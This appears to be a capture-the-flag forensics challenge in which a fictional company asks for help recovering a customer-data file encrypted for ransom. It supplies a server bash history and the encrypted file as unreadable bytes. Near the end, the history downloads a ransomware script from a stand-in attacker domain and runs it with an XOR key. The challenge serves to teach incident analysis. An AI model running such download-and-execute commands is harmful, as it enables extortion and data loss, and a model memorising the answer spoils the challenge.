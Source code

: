 A malicious hacker group has managed to access one of our servers.

They have encrypted a very sensitive file with customer data and are asking for a ransom of 10,000 Meme Coins.

We managed to retrieve the bash history of the server (bash_history), as well as the encrypted file (customerdata.csv.crypt).
Can you help get the file back and save us a lot of money?

##################

bash_history:

exit
ls -la
cd projects/
git status
git pull origin main
vim README.md
cat README.md
mkdir new_project
cd new_project
touch index.html
echo "<!DOCTYPE html>" > index.html
git add .
git commit -m "Initial commit"
git push origin main
cd ..
ls
python3 -m venv env
source env/bin/activate
pip install requests
deactivate
htop
curl https://catfact.ninja/fact
sudo apt update
sudo apt upgrade -y
df -h
free -m
docker ps
docker-compose up -d
npm install express
npm run start
history
tail -f /var/log/syslog
clear
cat /etc/hosts
ls -lah
pwd
curl -L ifconfig.me
clear
mktemp -d
cd $(mktemp -d)
ls
curl https://catfact.ninja/fact
wget https://ev1ld0m41n.com/xor_ransom.py
python3 -m venv .venv
python3 -m virtualenv .venv
source .venv/bin/activate
ls
python3 -m pip install -r requirements.txt
python3 xor_ransom.py --key 0xF3
echo "You have been hacked - You'll now receive instructions for the payments to get your data back"
exit

############################

customerdata.csv.crypt:

��ȵ����ӽ���ȿ���ӽ���ȼ�����������������ȿ���Ƞ����ȵ���������������������������ȼ�����ȹ�������������Ƚ���Ȥ��������������ȶ���ȹ�����������ȼ�����ȱ�����������Ȳ��ȷ�����������ȶ�����Ⱦ������������Ƞ�����Ȥ������������ȹ����Ⱦ�����������Ⱥ�������ȧ�������������ȱ�������Ȳ���������������Ⱦ��ȧ�������������ȿ����ȹ��������������Ȱ��������Ȥ������������Ⱦ����Ȼ�������������Ȳ�����Ⱦ�������������ȶ����ȧ���������������Ȼ�����ȴ�������������Ȳ��������Ⱦ���������������ȶ�����ȡ�������������